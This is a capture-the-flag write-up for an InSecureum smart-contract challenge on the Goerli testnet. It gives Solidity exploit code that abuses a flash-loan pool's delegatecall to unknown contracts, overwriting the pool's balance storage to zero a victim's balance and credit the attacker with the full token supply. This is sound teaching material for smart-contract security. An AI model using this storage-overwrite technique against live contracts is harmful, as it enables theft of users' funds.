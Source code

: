 ## Challenge 1

Deployment transaction: https://goerli.etherscan.io/tx/0x5bf5794db3f5ae6f84803ee79c107bed99b357268ae475ea10e2bbc344854ddd

InSecureum token is a standard ERC-20 token, meaning the issue is likely to be found at the Lender’s pool smart contract.

The Lender pool contract did indeed have an issue, which was the usage of delegateCalls to unknown contracts.

The exploit was made focused at the flashLoan function. The data argument is the key to everything.

### Storage 

    Make sure the memorySlot is the same as the one used by the exploited smart contract. In our case, the one used to store balances was memorySlot1. 

     IERC20 public token;
     mapping(address => uint) public memorySlot1;
     uint public uselessSlot;
     address public here;


    If the exploited smart contract had the following structure:

     mapping(address => uint) public balances;
     IERC20 public token;
     uint public uselessSlot;
     address public here;
    
        Memory slot 0 would be the target.

### Constructor

    Make sure to pass the correct token address.

     constructor(IERC20 _token){
         token = _token;
         here = address(this);
     }


### Part 1
I first generated view functions to get the bytes needed to pass as the 'data' argument for Lender pool's flashLoan function. 

     function bytesGet1(address attackReceiver) public pure returns(bytes memory){
        return abi.encodeWithSignature("attack(address)", attackReceiver);
     }

The attack function was made solely focused on changing data at Lender pool's memory slot that corresponded to balances data. In that case, it was slot one:

     function attack(address attackReceiver) public returns(bool){
        memorySlot1[attackReceiver] = 0;
        
        return true;
    }

The arguments passed to the flashLoan function were: 
     1. exploit contract address 
     2. the data generated with the bytesGet1

Wait a minute!
This did set another address's balance to zero, but where's the money?

### Part 2

Same logic, some small tweaks, complete different result:

     function bytesGet2(address attackRunner) public pure returns(bytes memory){
        
        return abi.encodeWithSignature("attack2(address)", attackRunner);
        
    }

Now we need to implement the attack2 function:

     function attack2(address attackRunner) public returns(bool){
        uint totals = token.totalSupply();
        memorySlot1[attackRunner] = totals;
        
        return true;
    }

The arguments passed to the flashLoan function were: 
     1. exploit contract address 
     2. the data generated with the bytesGet2

Challenge solved!
